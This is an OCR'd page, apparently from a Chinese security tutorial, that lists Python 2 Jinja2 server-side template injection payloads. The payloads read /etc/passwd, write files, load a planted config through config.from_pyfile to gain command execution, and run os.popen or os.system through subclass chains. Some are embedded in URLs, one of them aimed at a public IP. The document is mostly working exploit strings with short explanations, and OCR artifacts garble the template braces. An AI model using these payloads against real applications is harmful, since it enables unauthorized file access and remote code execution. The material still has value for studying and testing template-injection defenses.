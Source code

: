 安全研究员给出的几个常见Payload

**<a class="reference-link" name="payload%20python2"></a>payload python2**

**文件读取和写入**

```
#读文件
`{``{`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()`}``}`  
`{``{`''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()`}``}`
#写文件
`{``{` ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") `}``}`
```

**任意执行**

每次执行都要先写然后编译执行

```
`{``{`''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg','w').write('code')`}``}`  
`{``{` config.from_pyfile('/tmp/owned.cfg') `}``}`
```

写入一次即可

```
`{``{`''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg','w').write('from subprocess import check_output\n\nRUNCMD = check_output\n')`}``}`  
`{``{` config.from_pyfile('/tmp/owned.cfg') `}``}`  
`{``{` config['RUNCMD']('/usr/bin/id',shell=True) `}``}`
```

不回显的

```
http://127.0.0.1/`{``{`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']('1+1')`}``}`      
http://127.0.0.1/`{``{`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').system('whoami')")`}``}`
```

任意执行只需要一条指令

```
`{``{`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")`}``}`(这条指令可以注入，但是如果直接进入python2打这个poc，会报错，用下面这个就不会，可能是python启动会加载了某些模块)  
http://39.105.116.195/`{``{`''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")`}``}`(system函数换为popen('').read()，需要导入os模块)  
`{``{`().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()`}``}`(不需要导入os模块，直接从别的模块调用)
总结:
通过某种类型(字符串:""，list:[]，int：1)开始引出，__class__找到当前类，__mro__或者__base__找到__object__，前边的语句构造都是要找这个。然后利用object找到能利用的类。还有就是`{``{`''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')`}``}`这种的，能执行，但是不会回显。一般来说，python2的话用file就行，python3则没有这个属性。
```
